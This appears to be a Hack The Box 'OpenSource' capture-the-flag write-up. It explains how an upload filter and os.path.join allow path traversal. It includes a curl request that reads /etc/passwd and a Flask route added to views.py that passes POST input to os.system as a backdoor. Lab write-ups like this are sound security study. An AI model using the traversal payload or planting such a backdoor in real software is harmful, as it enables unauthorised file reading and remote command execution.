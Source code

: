 ## Testing for local file inclusion (LFI)
* Uploading a file stores it in `/uploads/{FILE}`
* Tried navigating to `/uploads/../../../../etc/passwd` but it gets filtered

Since we have the source code we can see how it is being filtered.
```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```
This function sanitizes the file name from the users post request (uploading a file).

We can see that it only filters `../`

And if we check out how the path is constructed in `views.py`. We see that it just uses `os.path.join()`

```python
@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name) # Vulnerable line
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')
```
And that is vulnerable because, if we looked at how `os.path.join()` works
![path vuln](/assets/img/HTB-opensource/os_path_vuln.png)

We can see that if we add a `/` to any argument it will ignore all the arguments that came before and start from the argument that starts with `/`.

So that means we could control the file path and bypass the LFI filter by just adding a `/` making it an absolute path.
```shell
curl http://opensource.htb/uploads/..%2f%2fetc/passwd
```
![passwd](/assets/img/HTB-opensource/etc-passwd.png)

This does return `/etc/passwd` from the target machine.

> Using this LFI I have tried generating the werkzueg pin code but I could not get that to work.

---
# Foothold
* Found some cronjob, but there are no executable scripts to modify.

* We have file read and file upload so what is stopping us from changing the source code on the server to add our own vulnerable code to get RCE

```python
import os
...

@app.route('/vymvn', methods=['POST'])
def shell():
    cmd = request.form['text']
    processed_cmd = os.system(cmd)
    return processed_cmd
```
added this function to `views.py` which will take any data we send with as `POST` request and process it as a command and send it back. Basically making ourselves a backdoor.
